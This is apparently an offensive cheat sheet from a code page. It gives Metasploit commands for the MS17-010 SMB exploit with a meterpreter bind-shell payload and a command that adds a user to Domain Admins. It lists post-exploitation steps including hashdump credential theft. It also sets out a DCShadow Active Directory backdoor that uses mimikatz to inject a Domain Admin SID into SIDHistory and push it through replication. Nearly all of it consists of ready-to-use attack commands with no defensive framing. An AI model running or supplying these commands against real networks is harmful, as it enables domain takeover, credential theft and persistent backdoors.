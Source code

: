 ## AUXILIARY/ADMIN/SMB/MS17_010_COMMAND
````
set command net group \"Domain Admins\" <USERNAME> /add /domain
set rhosts <IP's>
````


## EXPLOIT MS17-010
````
use exploit/windows/smb/ms17_010/
set payload meterpreter/bind_tcp
set rhost <IP>
set lport <port number>
````

## METERPRETER COMMANDS

````
ps
ipconfig 
whoami
hashdump || run hashdump
````

## ACTIVE DIRECTORY DC SHADOW BACKDOOR  
### FROM A WORKSTATION
### *System Access*
````
1. Attacler obtains Domain Admins rights
2. Mimikatz register as Domain Controller in AD
3. Make replication change
4. Trigger Replication
````

````
powershell-import <Path to DCShadowPermissions.ps1>

powershell Set-DCShadowPermissions -FakeDC <computer name> -ADPATH "LDAP://CN=AdminSDHolder,CN=System,DC=<DOMAIN>,DC=<DOMAIN>,DC=<DOMAIN>" -Username <username> -Verbose

mimkatz lsadump::dcshadow /object:<username> /attribute:SIDHistory /value:<DOMAIN ADMIN SID WITH RID OF - 512>

Example: S-1-5-21-2102128754-2500892452-41739376602-512
````

### FROM A WORKSTATION
### *User/Admin Access*
````
shell whoami /user
mimikatz lsadump::dcshadow /push
shell dir \\<Domain Controller IP>\C$
````
